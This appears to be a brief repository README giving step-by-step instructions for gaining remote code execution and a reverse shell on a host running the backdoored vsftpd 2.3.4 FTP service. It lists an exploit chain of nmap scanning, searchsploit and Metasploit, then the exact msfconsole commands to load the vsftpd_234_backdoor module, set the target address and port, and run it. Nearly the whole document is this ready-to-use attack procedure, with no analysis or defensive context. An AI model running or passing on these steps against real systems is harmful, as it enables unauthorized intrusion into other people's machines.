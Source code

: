 
	perform  a remote code execution and gaining reverse shell


## expliot chain:
	
	1. search in nmap with -sC and -sV 
	2. searchsploit search
	3. search in metasploit
	4. choose exploit
	5. set parameter
	6. run




## commands:

	1. msfconsole 
	2. search vsftpd 
	3. use exploit/unix/ftp/vsftpd_234_backdoor 
	4. set RHOST [target-ip ]
	5. set RPORT 21 
	6. show options
	7. exploit
